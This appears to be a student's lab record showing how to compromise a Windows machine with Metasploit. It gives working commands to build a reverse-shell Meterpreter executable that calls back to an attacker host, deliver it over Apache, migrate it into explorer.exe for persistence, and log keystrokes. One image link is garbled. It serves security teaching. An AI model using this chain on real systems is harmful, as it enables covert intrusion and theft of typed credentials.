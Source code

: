 # NAME:Vidhysri
# REG NO:212222230170

# EX N0 6Compromising-windows-using-Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/097d17c5-4e10-4a6b-9b85-b1bab7d4160f)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/daaa5557-e3b0-4ad0-b8b4-0db85d4b7e85)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/3abe35a2-6a3c-4f99-83f2-454ba8c08041)

Start apache server sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/0c8393b4-70e6-4aa6-bb26-2bc5e59bb1fb)

Check the status of apache2
![image](https://github.com/user-attachments/assets/46d8137b-302c-47ff-b99c-16be37e06e62)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. 87b2-3ede-4fb4-ad00-07eff0c29eec) Starting a command and control Server use multi/handler

![image](https://github.com/user-attachments/assets/c409

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/c0b040de-1a27-4013-a349-40a4dda9576e)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/user-attachments/assets/f2cc50cc-8dee-43fd-b815-7408c4e818b5)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/1e718458-6c6d-4e99-adac-3769ad3a5dc9)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/user-attachments/assets/5a30eef4-522c-468f-9a88-ab5534ca4de4)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/178560e4-1741-4036-9e60-783728362fda)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/8a307ebd-e45c-4d6a-8f29-63471bbe6f94)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
